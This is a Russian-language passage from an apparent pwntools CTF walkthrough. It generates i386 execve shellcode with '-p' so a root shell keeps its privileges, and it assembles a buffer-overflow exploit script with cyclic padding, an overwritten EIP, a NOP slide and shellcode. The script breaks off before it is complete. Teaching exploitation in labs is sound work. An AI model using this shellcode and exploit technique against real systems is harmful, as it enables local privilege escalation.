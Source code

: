 Это для базовой оболочки bash для исполняемых файлов Linux с архитектурой i386. Удобная функция shellcraft заключается в том, что мы можем распечатать шелл-код в разных форматах с помощью флага -f. Возможные форматы будут перечислены, если вы введете команду shellcraft -h. Пожалуйста, ответьте на вопрос 6. 

В приведенном выше шеллкоде есть небольшая загвоздка. Чтобы получить root shell, нам нужно сохранить привилегии intro2pwnFinal, хотя bash откажется от привилегий, если мы не добавим флаг -p. Если мы посмотрим на ассемблерный код для этой оболочки, то увидим, что он использует execve и передает /bin///sh в качестве первого параметра и ['sh'] в качестве второго. Первый параметр — это путь к тому, что мы хотим выполнить, а второй параметр — это массив argv, содержащий аргументы командной строки (если вы не уверены в execve, вы можете обратиться к этой странице руководства  здесь ). В этом случае мы хотим выполнить /bin///sh, но мы хотим передать 'sh' и '-p' в массив argv. Мы можем использовать shellcraft для создания execve shellcode с "/bin///sh" и "['sh', '-p']" в качестве параметров. Мы можем сделать это с помощью следующей команды:

shellcraft i386.linux.execve "/bin///sh" "['sh', '-p']" -f a

Когда мы запускаем эту команду, мы видим, что она такая же, как и шеллкод linux .sh, за исключением добавленного '-p' в массив argv. Чтобы написать шеллкод, который будет проще использовать в нашем скрипте эксплойта python, мы можем заменить "-f a" на "-f s", что выведет наш шеллкод в строковом формате. Мы можем скопировать это и вставить в наш код эксплойта (заменив инструкцию точки останова):

shellcode = "jhh\x2f\x2f\x2fsh\x2fbin\x89\xe3jph\x01\x01\x01\x01\x814\x24ri\x01,1\xc9Qj\x07Y\x01\xe1Qj\x08Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80"

Наш код почти готов! До этого момента мы печатали нашу полезную нагрузку и вручную вводили ее в исполняемый файл. Как и в сетевой задаче, Pwntools позволяет нам автоматически взаимодействовать с программой. Для локального процесса мы используем функцию process().

proc = process('./intro2pwnFinal')

Мы можем получать данные из процесса, и поскольку процесс отправляет данные с новой строкой, мы можем использовать recvline() вместо recvn().

proc.recvline()

После того, как мы создали полезную нагрузку, мы можем отправить ее с помощью:

proc.send(payload)

Наконец, после того, как мы отправили полезную нагрузку, нам нужен способ связи с оболочкой, которую мы только что создали. Мы можем сделать с помощью с 

proc.interactive()

Итак, подведем итоги. Весь наш скрипт на Python выглядит так:

from pwn import *

proc = process('./intro2pwnFinal')

proc.recvline()

padding = cyclic(cyclic_find('taaa'))

eip = p32(0xffffd510+200)

nop_slide = "\x90"*1000

shellcode = "jhh\x2f\x2f\x2fsh\x2fbin\x89\xe3jph\x01\x01\x01\x01\x814\x24ri\x01,1\xc9Qj\x07Y\x01\xe1Qj\x08Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80"
